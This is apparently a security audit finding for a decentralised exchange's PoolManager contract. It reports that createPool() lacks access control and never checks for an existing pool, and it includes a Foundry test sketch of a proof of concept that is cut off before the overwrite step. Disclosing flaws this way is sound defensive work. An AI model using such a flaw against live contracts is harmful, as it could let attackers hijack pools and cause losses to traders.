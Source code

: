 There are no restrictions on the `createPool()` function, anyone can call this function in [PoolManager.sol#L53-L99](https://github.com/Great-Trading-eXperience/clob-dex/blob/81d7a7953948c079b7a35dd8646ce6123a57977b/src/PoolManager.sol#L53-L99).

```solidity
function createPool(
    Currency _baseCurrency,
    Currency _quoteCurrency,
    IOrderBook.TradingRules memory _tradingRules
) external returns (PoolId) {
    // ❌ PROBLEM: Anyone can call this function
```

There is no check whether the pool already exists, proceed directly to creating a new pool.

```solidity
PoolKey memory key = createPoolKey(_baseCurrency, _quoteCurrency);
PoolId id = key.toId();

// ❌ PROBLEM: No check if pool already exists
// Proceed directly to creating a new pool

```

### **Proof of Concept**

Add to `PoolManagerTest.t.sol`.

```solidity
function testPoolOverwriteVulnerability() public {
    // Setup: Set router first (required for createPool)
    vm.startPrank(owner);
    poolManager.setRouter(operator); // Set router as operator
    vm.stopPrank();

    // Setup: Owner (trusted admin) creates the first pool
    vm.startPrank(owner);

    // Admin created WETH/USDC pool with premium trading rules
    IOrderBook.TradingRules memory premiumRules = IOrderBook.TradingRules({
        minTradeAmount: 1e18,     // 1 WETH minimum
        minAmountMovement: 1e17,  // 0.1 WETH movement
        minPriceMovement: 10e6,   // 10 USDC movement
        minOrderSize: 100e6       // 100 USDC minimum
    });

    PoolId adminPool = poolManager.createPool(weth, usdc, premiumRules);
    IOrderBook adminOrderBook = poolManager.getPool(poolManager.createPoolKey(weth, usdc)).orderBook;

    vm.stopPrank();

    // Simulate trading activity in pool admin
    vm.startPrank(user);

    // User deposit and place order in admin pool
    mockWETH.approve(address(balanceManager), 10 ether);
    balanceManager.deposit(weth, 10 ether, user, user);

    vm.stopPrank();

    // Place orders as an operator (because only routers can place orders)
    vm.startPrank(operator);
    uint48 orderId = adminOrderBook.placeOrder(2000e6, 5 ether, IOrderBook.Side.SELL, user, IOrderBook.TimeInForce.GTC);
    vm.stopPrank();

```